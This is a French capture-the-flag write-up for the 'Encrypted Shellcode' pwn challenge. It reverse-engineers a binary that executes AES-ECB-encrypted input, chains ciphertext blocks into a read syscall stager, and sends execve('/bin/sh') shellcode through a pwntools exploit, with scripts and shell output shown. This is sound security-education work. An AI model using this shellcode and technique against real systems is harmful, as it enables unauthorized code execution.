


# Encrypted Shellcode

- Catégorie: `pwn`

- Points: `200`

- Nombre de résolutions: `9`

**Énoncé:**

>  Lors d'un audit, vous trouvez ces fichiers et ces commandes dans des logs :
>
> ```
> $ dd if=/dev/urandom of=key.bin bs=16 count=1
> $ ./esc -e < stereogram.png > stereogram.png.enc 
> $ ./esc < stereogram.png
> [>] Done encrypting 1280731 bytes.
> [2]    11735 segmentation fault  ./esc < stereogram.png
> ```
>
> Il semblerait que ce crash ait été exploité : pouvez-vous comprendre comment et lire le fichier `flag.txt` ?
>
> Vous n'avez pas  `key.bin`, mais le service fourni donne un accès à `esc` (sans argument) et utilisant le même fichier `key.bin` que celui généré par la commande ci-dessus : `nc challenges2.france-cybersecurity-challenge.fr 4004`


**Fichiers attachés:**

- `esc`: Le binaire présent dans les commandes de l'énoncé

- `stereogram.png`: L'image en clair.
- `stereogram.png.enc`: L'image chiffrée avec la clé `key.bin`


**TL;DR**

- Recherche de gadgets potentiels dans le fichier chiffré par groupe de 16 octets (128 bits)
- Ajustement des gadgets pour exécuter un syscall `read(0, rsp, XXXX)`
- Exécution de notre shellcode 

### Introduction

À première vue, le challenge peut faire peur, il contient le mot `Encrypted` dans son nom et a un format très différent des challenges pwn habituels.

En lisant simplement l'énoncé, on peut déjà comprendre plusieurs choses:

- La clé `key.bin` est générée aléatoirement, et ne nous est pas donnée.
- Le binaire `esc` peut prendre un paramètre optionnel `-e` qui avec lequel il prendra sur l'entrée standard un fichier et écrira son contenu chiffré avec la clé `key.bin` sur la sortie standard.
- Sans passer l'argument `-e` le binaire va juste prendre sur lire sur l'entrée standard et `SEGFAULT`.

On peut essayer de reproduire les mêmes opérations que dans l'énoncé en générant notre propre `key.bin`.

```
$ dd if=/dev/urandom of=key.bin bs=16 count=1
1+0 enregistrements lus
1+0 enregistrements écrits
16 octets copiés, 0,000564414 s, 28,3 kB/s
$ ./esc -e < stereogram.png > stereogram.png.enc
$ ./esc < stereogram.png
[>] Done encrypting 1280731 bytes.
Erreur de segmentation (core dumped)
```

On obtient le même résultat, rien d'anormal jusque là.


### Rétro-ingénierie du binaire

On commence par obtenir des informations sur le binaire en question, ainsi que sur ses éventuelles protections:

```
$ file esc 
esc: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f12de1f039dc3376564150ad64f22ce3ae516e63, for GNU/Linux 3.2.0, stripped

$ checksec ./esc
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
    FORTIFY:  Enabled
```

Le binaire est donc un `ELF x64` linké dynamiquement, et strippé.

On peut voir avec la sortie du `checksec` qu'il a toute les protections d'activées sauf `NX`, ce qui implique que certaines zones mémoires comme la `stack`, `bss`, `data` ou encore la `heap` sont `RWX`, c'est à dire que nous pouvons à la fois lire, écrire et exécuter des données dedans. 

On importe sans plus attendre le binaire dans `Ghidra` et `Cutter` (pour ma part).

On voit dans la fonction main le test de la présence l'argument `-e` :


Puis appelle 2 autres fonctions que nous allons voir:



**key_expansion**

>  Cette fonction prend un paramètre un tableau de tableau `char [16] [11]`  et va étendre la clé de 128 bits contenu dans `key.bin` en 11 sous clés utilisées pour chaque tour de chiffrement AES.



Dans un premier temps, la fonction lis le contenu de `key.bin` et le met dans la variable `key`, puis utilise une instruction SSE permettant de manipuler des registres de 128 bits directement (plus d'informations ici: https://fr.wikipedia.org/wiki/Streaming_SIMD_Extensions).

Dans notre cas, on peut voir que les 128 bits contenus dans notre variable `key` sont mises dans le registre `XMM0` comme le montre la capture suivante:


Puis la fonction `expand_key` est appelée avec en paramètre le tableau à deux dimensions mentionné plus haut.

**expand_key**

>  Génère les clés nécessaires aux différents tours effectués par le chiffrement AES (https://en.wikipedia.org/wiki/AES_key_schedule).


Cette fonction étant essentiellement constituée d'instructions SSE, passons sous Cutter avoir un rendu plus propre.

Voici un extrait de la fonction:


Et c'est à ce moment précis que j'ai compris que ça n'allait pas être simple.


Mais en prenant du recul, les instructions se répètent pour chaque clé. `vaeskeygenassist` nous aide également à comprendre le but de cette fonction (https://www.felixcloutier.com/x86/aeskeygenassist).

Pour gagner du temps, nous n'allons pas nous plonger dans le reverse de cette fonction et considérer que celle-ci ne comporte pas de vulnérabilités, comme son but est très clair: générer les différentes clés pour chaque tour de chiffrement AES.


En retournant dans la fonction `key_expansion`, le code ne semble pas comporter de vulnérabilités. 


Des checks sont effectués sur l'ouverture correcte du fichier, et il n'y a pas d'overflow apparent sur le buffer de la clé...

Cependant, la valeur de retour de `fread` et `fclose` n'est pas vérifiée. Une idée que l'on aurait pu avoir si la condition sur l'ouverture du fichier n'était pas faite est de faire en sorte que le `fopen` retourne `NULL` par un moyen X ou Y afin que le `fread` n'écrase pas le contenu de `key` déjà existant sur la pile, et donc faire en sorte de pouvoir prédire la clé (néanmoins il peut toujours y avoir des adresses dans ces données, et donc nous n'aurions pas pu prédire son contenu à cause de l'ASLR / PIE).

On continue dans la rétro-ingénierie du binaire avec le cœur du programme: la fonction `encrypt`.

Cette-dernière prend en paramètre les clés générées par la fonction `key_expansion` ainsi que la variable contrôlant l’existence de l'argument  `-e`.


La fonction commence par allouer `0x400048` octets sur la pile, puis appelle `memset(buffer, 0x90, 0x400030)`.

La fonction `read(0, buffer + 0x30, 0x400000)` est ensuite appelée (c'est dans `buffer + 0x30` que le contenu de ce qu'on envoie en entrée sera stocké).

Des instructions SSE sont ensuite exécutées pour déplacer 16 octets par 16 octets des données contenu dans `.data` directement au début de notre buffer.


Ces données contient en faite du code assembleur qui va simplement fixer à 0 tous les registres usuels du à l’exception de `rsp`:


Cela va donc compliquer la résolution car nous ne pourrons pas réutiliser des valeurs déjà présentes dans les registres dans notre shellcode, mais nous allons voir ça plus tard.

Une condition est ensuite effectuée sur `rax` qui contient alors la valeur de retour de `read` (le nombre d'octets lus sur l'entrée standard donc).


Dans le cas où le nombre d'octets lus est positif (cas usuel), le programme va charger dans différents registres SSE les clés générées, et présentes dans le premier paramètre de la fonction:


Puis le chiffrement est ensuite effectué pour chaque **blocs** de 128 bits que nous avons entrés.


Remarque: l'instruction `vaesenc` permet de réaliser un tour de chiffrement AES (https://www.felixcloutier.com/x86/aesenc).

Le mode d'opération utilisé ici pour le chiffrement semble être `ECB` (https://fr.wikipedia.org/wiki/Mode_d%27op%C3%A9ration_(cryptographie)#Dictionnaire_de_codes_:_%C2%AB_Electronic_codebook_%C2%BB_(ECB)) qui va simplement venir juxtaposer les blocs chiffrés dans les données chiffrées sans faire davantage d'opérations dessus, comme le montre cette image:


Le fait que ce mode d'opération particulier est déterminant pour la résolution, nous allons voir cela plus tard dans ce writeup. 

Et finalement, l'existence de l'argument `-e` est testée pour déterminer si on doit afficher sur la sortie standard le contenu du fichier chiffré, ou alors exécuter directement le contenu chiffré:


### Recherche d'idées

La rétro-ingénierie du binaire permet de soulever plusieurs problèmes qui vont venir compliquer la résolution du challenge:

- Le chiffrement `AES-ECB` est utilisé avec une clé aléatoire de 128 bits.
- Il n'est pas possible de récupérer la clé distante, AES est résistant aux attaques par clair-connu.
- Nous pouvons seulement exécuter du code dans le contenu chiffré, et qui dépend donc entièrement de la clé utilisée ainsi que des données en clair.
  - Cela nous empêche de réutiliser nos tests effectués en local directement en remote.
- Un bloc chiffré n'est pas prédictible par rapport à son clair correspondant.


Une idée est de trouver des **gadgets** correspondants à chaque instructions de notre shellcode, par exemple un bloc chiffré peut déplacer `rsp` dans `rsi` sans affecter les autres registres, et donc ajuster les blocs chiffrés de façon à former notre shellcode final. 

Cependant cette idée semble complètement infaisable et trop compliquée pour un challenge à 200pts, comme la présence de tels gadgets relève simplement de la chance... (mais nous allons revenir là-dessus plus tard ;-) ).

Une autre idée est d'abuser du check fait au début de la fonction `encrypt` sur la valeur de retour de `read`.

En effet, si le nombre d'octets lus par read est 0, nous sautons totalement l'étape de chiffrement et pouvons exécuter notre code lu directement. Mais `read` ne renvoie 0 seulement si son 3e paramètre est égal à 0, (auquel cas nous n'allons rien lire) ou si simplement aucun octet est lu.

Premièrement, nous ne contrôlons pas le 3e paramètre de `read` ici, et deuxièmement, si nous n'entrons rien, notre code ne sera évidemment pas présent en mémoire...

Si nous relisons attentivement l'énoncé, nous avons cette phrase: `Il semblerait que ce crash ait été exploité : pouvez-vous comprendre comment et lire le fichier flag.txt ?`.

Peut être que le fichier `stereogram.png.enc` contient déjà une sorte de POC pour exploiter le service, et dont on doit seulement comprendre son fonctionnement ?

Cependant le début désassemblage de `stereogram.png.enc` semble complètement invalide, et donc ne peut pas être exploité.

```
$ objdump -b binary -Mintel -D -m i386:x86-64 stereogram.png.enc | head -n 16

stereogram.png.enc:     format de fichier binary
Déassemblage de la section .data :
0000000000000000 <.data>:
       0:	c0 a5 7f ee c5 08 9e 	shl    BYTE PTR [rbp+0x8c5ee7f],0x9e
       7:	8e 9c b1 a0 5a 39 eb 	mov    ds,WORD PTR [rcx+rsi*4-0x14c6a560]
       e:	f8                   	clc    
       f:	a7                   	cmps   DWORD PTR ds:[rsi],DWORD PTR es:[rdi]
      10:	9f                   	lahf   
      11:	3d 23 ca f2 4d       	cmp    eax,0x4df2ca23
      16:	98                   	cwde   
      17:	22 81 da f0 7b 62    	and    al,BYTE PTR [rcx+0x627bf0da]
      1d:	92                   	xchg   edx,eax
```


J'ai passé plusieurs heures à réfléchir à une idée qui tenait la route sans utiliser la première idée qui paraissait complètement infaisable...

Cependant, le fichier fourni est assez gros  (1.3Mo) peut-être avec un peu de chance nous pouvons réussir à obtenir des gadgets qui tiennent la route ?

Retournons-donc sur notre idée initiale, qui ne présage rien de bon pour notre santé mentale.


 ### Recherche de gadgets

Une instruction que nous allons inévitablement avoir à utiliser est l'instruction `syscall` permettant de faire l'appel à un appel système (https://github.com/Hackndo/misc/blob/master/syscalls64.md).

Essayons-donc de chercher si une telle instruction est présente dans notre fichier chiffré `stereogram.png.enc`.

```
$ objdump -b binary -Mintel -D -m i386:x86-64 stereogram.png.enc | grep syscall
   32756:	0f 05                	syscall 
   4a5c7:	0f 05                	syscall 
   76276:	0f 05                	syscall 
   77673:	0f 05                	syscall 
   9a486:	0f 05                	syscall 
   9e6be:	0f 05                	syscall 
   d2d82:	42 0f 05             	rex.X syscall 
```

Cool c'est déjà ça! 

Une façon de forger notre payload pour exécuter nos instructions est expliquée par le schéma suivant:

```
       ┌─────────┬─────────┐
       │  Clair  │ Chiffré │
       ├─────────┼─────────┤
0xabc  │    X    │ rsi = A │
       ├─────────┼─────────┤
0xdef  │    Y    │ rdi = B │
       ├─────────┼─────────┤
0x123  │    Z    │ syscall │
       └─────────┴─────────┘
```

Pour obtenir les gadgets correspondants dans le chiffré, il nous suffit de chaîner les blocs correspondants au clair associé (donc dans le fichier `stereogram.png`) et d'envoyer le tout au service distant.

Cependant la réalisation d'un shellcode complet (exécutant un shell) semble trop complexe avec cette méthode: la chaîne `/bin/sh` n'est pas présente dans le binaire. De plus tous les registres sont fixés à 0, *sauf rsp*.

J'ai donc choisi d'exécuter un simple `read(0, rsp, X)` avec `X` une valeur relativement grande (mais pas trop, sur 32 bits idéalement) permettant de placer notre shellcode final.

Pour exécuter cela il nous faut modifier certains registres:

```
rax <- 0 ; déjà == 0 au début
rdi <- 0 ; déjà == 0 au début
rsi <- rsp
rdx <- X
```


J'ai donc commencer à faire un script me découpant le fichier chiffré en bloc de 16 octets, et qui désassemble ensuite le contenu de chaque bloc à l'aide de `capstone`.

```python
#!/usr/bin/python

from capstone import *
from sys import argv

enc_file = open("stereogram.png.enc", "rb")
enc_content = enc_file.read()
enc_file.close()

step = 0x10
qwords = [enc_content[i:i+step] for i in range(0, len(enc_content), step)]

filename = "disas-blocks.txt"

tmpfd = open(filename, "w")
tmpfd.write("")
tmpfd.close()

out_file = open(filename, "a")

cs = Cs(CS_ARCH_X86, CS_MODE_64)

for i in range(len(qwords)):
    disas = cs.disasm(qwords[i], 0)
    formatted = ""
    for ins in disas:
        formatted += "0x%x:\t%s\t%s\n" % (ins.address, ins.mnemonic, ins.op_str)
    txt = formatted + "-"*32 + "\n"
    out_file.write(("[%s]\n" % (hex(i*step))) + txt)

out_file.close()
```

Nous obtenons alors dans `disas-blocks.txt`:

```
[0x0]
0x0:	shl	byte ptr [rbp + 0x8c5ee7f], 0x9e
0x7:	mov	ds, word ptr [rcx + rsi*4 - 0x14c6a560]
0xe:	clc	
0xf:	cmpsd	dword ptr [rsi], dword ptr [rdi]
--------------------------------
[0x10]
0x0:	lahf	
0x1:	cmp	eax, 0x4df2ca23
0x6:	cwde	
0x7:	and	al, byte ptr [rcx + 0x627bf0da]
0xd:	xchg	eax, edx
0xe:	pop	rdi
--------------------------------
[0x20]
0x0:	mov	edx, 0x83df9649
0x5:	mov	dword ptr [rax - 0x2f8f846], 0xae61a31d
0xf:	stosd	dword ptr [rdi], eax
--------------------------------
[0x30]
0x0:	vfnmadd213pd	ymm8, ymm9, ymmword ptr [rax - 0x3b859348]
0x9:	out	0xa9, eax
0xb:	je	0x44
--------------------------------
```

Plusieurs problèmes se lèvent alors dans le choix de nos gadgets:

- Il faut que le bloc ne contienne pas d'instruction invalide (et donc doit contenir seulement des instructions valides sur les 16 octets qui le constituent)
- Il faut que le bloc ne fasse pas crash le programme avec un accès illégitime à la mémoire.
  - Il faut donc éviter à tous pris les instructions déréférençant un pointeur, du style `[rXX +/- Y]`

- Il faut que toutes les instructions du bloc ne modifient pas le flux d'exécution du programme
- Il faut que toutes les instructions du bloc n'altère pas les valeurs des autres registres nécessaires (`rax`, `rdi` par exemple)

Comme nous le pouvons le voir, cela ne va pas être une mince affaire...

Et autre petit problème, sinon ça ne serait pas drôle: le fichier généré fait `446568` lignes.


Je vous épargne donc les 5-6h que j'ai passées à chercher des gadgets utiles à coup de grep et de Ctrl+F, mais voici les gadgets retenus:

```
Pousse la valeur de rsp surla stack
--------------------------------
[0x12e450]
0x0:	push	rcx
0x1:	push	6
0x3:	pushfq	
0x4:	cwde	
0x5:	push	rsp
0x6:	xor	al, 0x85
0x8:	or	al, 0x4b
0xa:	or	eax, 0x4c7dd541
0xf:	xchg	eax, ebp
--------------------------------
Permet de récupérer la valeur de rsp dans rsi poussée précédemment sur la stack
Cependant rax est modifié, nous devrons le remettre à 0.
--------------------------------
[0x1173c0]
0x0:	js	0x2f
0x2:	jl	0xfffffffffffffff3
0x4:	sub	al, 0xf4
0x6:	pop	rsi
0x7:	nop	
0x8:	mov	ebp, 0x1e5b60a4
0xd:	cdq	
0xe:	cmp	ebp, esi
--------------------------------
Permet de remettre eax à 0
--------------------------------
[0x7ffb0]
0x0:	add	r10d, r9d
0x3:	xchg	eax, ecx
0x4:	sbb	r10d, r11d
0x7:	sahf	
0x8:	mov	ebx, 0x9fe53c8b
0xd:	push	rbx
0xe:	std	
0xf:	popfq	
--------------------------------
Permet de mettre une valeur suffisamment grande dans rdx (sur 32 bits, comme on le souhaitait)
--------------------------------
[0x89de0]
0x0:	sub	ch, al
0x2:	pop	rbx
0x3:	and	rax, 0x131de1b
0x9:	mov	edx, 0x2b3c937
0xe:	wait	
0xf:	push	rcx
--------------------------------
Effectue un appel système
On a alors:
rdi = 0
rsi = rsp
rdx = 0x2b3c937
rax = 0
On a bien notre read(0, rsp, X)
--------------------------------
[0xee800]
0x0:	syscall	
0x2:	push	rdi
0x3:	and	eax, 0x73a50503
0xa:	adc	ebp, -0x6a
0xd:	in	eax, dx
0xe:	sub	esp, dword ptr [rbx]
--------------------------------
```


Pour exécuter notre premier stage de shellcode, nous devons donc envoyer au service distant des données agencées comme nous l'avons vu dans le schéma précédent:

```
          ┌─────────┬────────────┐
          │  Clair  │   Chiffré  │
          ├─────────┼────────────┤
0x12e450  │    ?    │  push rsp  │
          ├─────────┼────────────┤
0x1173c0  │    ?    │  pop rsi   │
          ├─────────┼────────────┤
0x7ffb0   │    ?    │ mov eax, 0 │
          ├─────────┼────────────┤
0x89de0   │    ?    │ mov edx, X │
          ├─────────┼────────────┤
0xee800   │    ?    │  syscall   │
          └─────────┴────────────┘
```

Le script suivant nous permet d'aller automatiquement chercher les blocs en clair correspondants et de les concaténer dans un fichier `pld.bin`.

```python
#!/usr/bin/python

from sys import argv

if len(argv) < 2:
    exit()

out_file = open("pld.bin", "w")
out_file.write("")
out_file.close()

for i in range(1, len(argv)):
    offset = int(argv[i], 16)
    plain_file = open("stereogram.png","rb")
    plain = plain_file.read()
    plain_file.close()
    content = plain[offset:offset+16]
    out_file = open("pld.bin", "a")
    out_file.write(content)
    out_file.close()
```

```
$ ./generate.py 0x12e450 0x1173c0 0x7ffb0 0x89de0 0xee800
```


Une fois le fichier `pld.bin` généré, nous pouvons simplement l'envoyer en remote, puis entrer notre shellcode:

```python
#!/usr/bin/python

from pwn import *

r = remote('challenges2.france-cybersecurity-challenge.fr', 4004)

shellcode = "\xeb\x0e\x48\x31\xc0\x48\x89\xc6\x48\x89\xc2\xb0\x3b\x5f\x0f\x05\xe8\xed\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00"

content = open("pld.bin", "rb").read()

shellcode = "\x90"*0x400 + shellcode

r.send(content)
r.send(shellcode)
r.interactive()
```

Remarque: le shellcode est tiré de mon Github: https://github.com/voydstack/shellcoding/blob/master/x64/shell/shell.asm et exécute un simple shell via `execve("/bin/sh", NULL, NULL)`.

Après exécution de l'exploit, nous récupérons bien un shell et pouvons obtenir le flag!

```
$ ./exploit.py 
[+] Opening connection to challenges2.france-cybersecurity-challenge.fr on port 4004: Done
[*] Switching to interactive mode
[>] Done encrypting 80 bytes.
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ cat flag
FCSC{8f61f83e18adf34d7b021ccde71aa6d24f74349125474b68601fbecbb2a55e4d}
```

Un grand merci à \J pour ce challenge très original et inhabituel qui aura retourné mon cerveau pendant de nombreuses heures! :D


### Bonus

Durant mes moments de désespoir sur ce challenge, je me suis aperçu que l'image fournie était en faite un vrai stéréogramme (http://ophtasurf.free.fr/stereogrammes/stereogramme.htm) dans lequel on aperçoit `FCSC FAKE FLAG`, un petit easter egg qui ne fait pas du bien au mental :D.


